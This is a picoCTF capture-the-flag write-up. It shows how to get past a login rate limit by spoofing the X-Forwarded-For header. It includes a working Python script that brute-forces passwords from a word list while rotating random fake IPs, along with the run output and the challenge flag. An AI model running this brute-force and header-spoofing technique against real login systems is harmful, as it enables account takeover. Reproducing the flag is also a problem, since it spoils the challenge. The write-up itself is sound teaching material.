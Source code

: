 
---
## Information given

#### Description

The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: ctf-player@picoctf.org and uncover the hidden secret.

Additional details will be available after launching your challenge instance.

#### Hints:
What IP does the server think you’re coming from?
Read more about [X-forwarded-For](https://www.typeerror.org/docs/http/headers/x-forwarded-for)
You can rotate fake IPs to bypass rate limits.

---

## Python solve script

We are also given a `passwords.txt` file:

```
o8GijNLh
FxmTBRic
PE4KtqXe
5Tec2YXd
aDbsDtO9
wSfCgTKV
jaOwWyI1
3HEQWIU0
EI528AbD
Dc7E3bM2
A9q6Ww68
MCpeUa3f
ljqkyqNf
Fbn8zYwV
bfSwplYv
qTmOzEej
jW6RWYbR
xgmwDQ3I
NITi7pqd
KANstcT2
```

Make sure that file is in the same directory as your python file:

```python
#!/usr/bin/env python3

import requests, random, json

  

TARGET = "http://amiable-citadel.picoctf.net:57333/login"

EMAIL = "ctf-player@picoctf.org"

PWFILE = "passwords.txt"

  

def rand_ip():

return "{}.{}.{}.{}".format(random.randint(1,223), random.randint(0,255), random.randint(0,255), random.randint(0,255))

  

with open(PWFILE, 'r') as f:

for line in f:

pw = line.strip()

if not pw:

continue

headers = {

"X-Forwarded-For": rand_ip(),

"User-Agent": "CTF-Checker",

"Content-Type": "application/json"

}

payload = {"email": EMAIL, "password": pw}

r = requests.post(TARGET, headers=headers, json=payload, timeout=10)

try:

j = r.json()

except Exception:

print("non-json response:", r.text)

continue

print("try", pw, "->", j)

if j.get("success"):

print("FOUND!", pw)

print("FLAG:", j.get("flag"))

break
```

## Exploitation

```bash
siddharthsehgal@mac junk % /usr/local/bin/python3 new_exploit.py
try o8GijNLh -> {'success': False}
try FxmTBRic -> {'success': False}
try PE4KtqXe -> {'success': False}
try 5Tec2YXd -> {'success': False}
try aDbsDtO9 -> {'success': False}
try wSfCgTKV -> {'success': False}
try jaOwWyI1 -> {'success': False}
try 3HEQWIU0 -> {'success': False}
try EI528AbD -> {'success': False}
try Dc7E3bM2 -> {'success': True, 'email': 'ctf-player@picoctf.org', 'firstName': 'pico', 'lastName': 'player', 'flag': 'picoCTF{xff_byp4ss_brut3_f6cca7d4}'}
FOUND! Dc7E3bM2
FLAG: picoCTF{xff_byp4ss_brut3_f6cca7d4}
```

So the flag is: `picoCTF{xff_byp4ss_brut3_f6cca7d4}`.

---
